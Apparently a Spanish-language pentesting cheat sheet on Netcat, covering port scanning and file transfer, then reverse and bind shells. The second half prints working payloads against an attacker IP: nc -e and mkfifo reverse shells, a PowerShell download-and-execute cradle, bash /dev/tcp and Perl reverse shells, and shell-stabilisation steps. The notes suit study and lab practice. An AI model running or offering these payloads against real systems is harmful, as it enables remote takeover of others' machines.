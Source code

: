 "La navaja suiza del TCP/IP”.
Puede utilizarse, por ejemplo:
- Para diagnosticar errores y problemas que afecten a la funcionalidad y la seguridad de una red.
- Para escanear puertos
- Para hacer streaming de datos o simplemente transferirlos.
- Para configurar servidores de chat y de web
- Para iniciar consultas por correo. 
Este software minimalista, desarrollado a mediados de los 90, puede operar en modo servidor y cliente.

## Descripción
Netcat, a menudo denominado "nc", es una herramienta de red multifuncional y poderosa que permite leer y escribir datos a través de conexiones de red utilizando TCP o UDP. Se le conoce como la "navaja suiza" del TCP/IP debido a su capacidad para realizar una amplia variedad de tareas relacionadas con la red, desde escaneo de puertos hasta transferencia de archivos y conexiones remotas.

## Usos Comunes de Netcat
1. Escaneo de Puertos
Netcat puede ser usado para verificar la conectividad de puertos de manera simple.
```bash
nc -zv [IP] [puerto_inicial]-[puerto_final]
```
Ejemplo para escanear puertos del 20 al 80:
```bash
nc -zv 10.10.10.10 20-80
```

2. Transferencia de Archivos
Netcat permite la transferencia de archivos entre sistemas de manera sencilla.
En el servidor (escuchando en el puerto 1234):
```bash
nc -lvp 1234 > archivo_recibido.txt
```
En el cliente (enviando el archivo):
```bash
nc [IP_servidor] 1234 < archivo_a_enviar.txt
```

3. Crear Servidores de Chat o Web Simples
Netcat se puede utilizar para configurar un servidor de chat básico o un servidor web.

- Ejemplo para un servidor de chat:
En el servidor (escuchando en el puerto 12345):
```bash
nc -lvp 12345
```
En el cliente (conectándose al servidor):
```bash
nc [IP_servidor] 12345
```

4. Consulta Remota a través de Netcat
Netcat puede ser utilizado para realizar consultas a servidores de correo o bases de datos, simulando las peticiones de un cliente.

- Ejemplo para conexión a un servidor HTTP en el puerto 80:
```bash
nc [IP_servidor] 80
GET / HTTP/1.1
Host: [IP_servidor]
```

## Modo Servidor y Cliente
Netcat opera en dos modos principales:
1. Modo Servidor: Escucha en un puerto para recibir conexiones.
```bash
nc -lvp [puerto]
```

2. Modo Cliente: Se conecta a un puerto en otro sistema.
```bash
nc [IP] [puerto]
```

## Ejemplo Completo de Uso
1. Escaneo de puertos en un rango de 1 a 100:
```bash
nc -zv 192.168.1.1 1-100
```
2. Transferencia de archivo de texto:
- Servidor:
```bash
nc -lvp 1234 > archivo_recibido.txt
```
- Cliente:
```bash
nc 192.168.1.1 1234 < archivo_a_enviar.txt
```

## Conclusión
Netcat es una herramienta esencial para auditorías de red y pruebas de penetración. Su versatilidad en la comunicación a través de redes lo convierte en una opción valiosa para tareas como escaneo de puertos, transferencia de archivos y conexiones remotas.

---
## **1. Tipos de Shells con Netcat**
### **Reverse Shell** (la víctima se conecta al atacante)
📌 Se usa cuando la víctima está detrás de un firewall/NAT y **no se puede acceder directamente**.  
**Modo de uso:**  
1. **El atacante escucha en un puerto** (ejemplo: 443)
```bash
nc -lvnp 443
```

2. **La víctima ejecuta Netcat y se conecta al atacante**  
**En Windows:**
```powershell
nc64.exe -e cmd.exe 10.10.14.9 443
```
**En Linux:**
```bash
nc -e /bin/bash 10.10.14.9 443
```

**Si `-e` está deshabilitado** (Netcat moderno):
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.9 443 > /tmp/f
```
### **Bind Shell** (el atacante se conecta a la víctima)
📌 Se usa cuando se tiene acceso directo a la máquina víctima.  
**Modo de uso:**  
1. **La víctima abre una shell en un puerto**
```bash
nc -lvnp 4444 -e /bin/bash
```

2. **El atacante se conecta a la víctima**
```bash
nc 10.10.14.8 4444
```

🚨 **Problema:** Si un firewall bloquea conexiones entrantes, este método no funcionará.

## **2. Payloads Alternativos**
🔹 **Windows (PowerShell Reverse Shell)**
```powershell
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.9/shell.ps1')"
```

🔹 **Bash Reverse Shell (Linux)**
```bash
bash -i >& /dev/tcp/10.10.14.9/443 0>&1
```

🔹 **Perl Reverse Shell**
```perl
perl -e 'use Socket;$i="10.10.14.9";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));connect(S,sockaddr_in($p,inet_aton($i)));open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");'
```

## **3. Técnicas para estabilizar la shell**
📌 Cuando obtenemos una shell, muchas veces está limitada. Para hacerla interactiva:
1. 
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
2. 
```bash
export TERM=xterm
```
3. Hacemos `Ctrl + Z` para suspender la Shell
4. 
```bash
stty raw -echo; fg
```
5. 
```bash
reset
```

## **4. Consideraciones de Seguridad**
**Peligros de Netcat**
- Puede ser detectado y bloqueado por antivirus y firewalls.
- En entornos seguros, se recomienda usar herramientas como `ncat` o `socat` que permiten cifrado.
